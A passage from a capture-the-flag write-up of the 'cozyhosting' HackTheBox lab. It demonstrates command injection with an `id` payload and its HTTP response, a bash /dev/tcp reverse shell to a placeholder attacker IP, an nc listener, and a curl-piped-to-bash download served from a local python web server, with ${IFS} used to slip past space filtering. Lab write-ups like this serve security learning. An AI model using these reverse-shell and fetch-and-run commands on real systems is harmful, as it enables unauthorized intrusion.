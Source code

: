 ```
payload: `id`

result: HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 06 Sep 2023 16:27:59 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname uid=1001(app): Name or service not known
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
```

The id command seems like to have done something, so lets try to get a reverse shell, which is basically:

You can find many commands online for reverse shell, we know the target is running Linux, so we will use one written in bash:

```
bash -i >& /dev/tcp/<attacker ip>/<any port> 0>&1
```

Unfortunately we weren't able to execute it because of the spaces and the ''&'' signs, so we will write that bash command to a file and upload it to the target machine using curl.

Executing this command on the target system will grant us access to it, but also we must set a listener on our machine:

```
nc -nlvp <any port>

-n: numeric system.
-l: listen.
-v: verbose.
-p: to specify the port
```


![](../assets/images/cozyhosting/20230906195612.png)

Here we are sending a command to the target to curl a file that has the reverse shell command and piping it to bash to execute it.

${IFS}: An environment variable to escape spaces.

Also we need to execute this on our machine:
```
python -m http.server
```
this will make our file accessible to the target machine because we want it to download it
